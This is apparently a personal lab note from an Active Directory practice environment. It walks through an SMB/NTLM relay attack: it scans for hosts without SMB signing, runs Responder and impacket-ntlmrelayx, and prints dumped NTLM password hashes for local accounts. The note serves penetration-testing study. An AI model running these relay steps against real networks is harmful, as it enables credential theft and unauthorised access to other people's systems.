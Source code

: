 # On Kali:
---
1. Identify hosts with SMB singin:``
  - `nmap --script=smb2-security-mode.nse -p445 10.0.1.4`
	  - can also do for whole network : `10.0.1.0/24`
	  ![[Pasted image 20250328150412.png]]
1. echo "10.0.1.10 \n 10.0.1.9" > targets.txt
2. Edit responder file and run `responder`:
		![[Pasted image 20250328150900.png]]
3. Setup `ntlm relay`
	1. `impacket-ntlmrelayx -tf targets.txt -smb2support`
   - ![[Pasted image 20250328151105.png]]

# On Spiderman (as MARVEL\fcastle):
---
- Access attacker ip same way from file explorer and get an error:
	![[Pasted image 20250328154816.png]]

# On Kali
---
- Got the hashes:
![[Pasted image 20250328152836.png]]

```
pparker:500:aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:7dadd9ba50a9158fa6a8dfd365439b3c:::
Administrator:1000:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
```

- Interactive mode: `impacket-ntlmrelayx -tf targets.txt -smb2support -i`:
	![[Pasted image 20250328155024.png]]
	![[Pasted image 20250328155038.png]]
![[Pasted image 20250328155131.png]]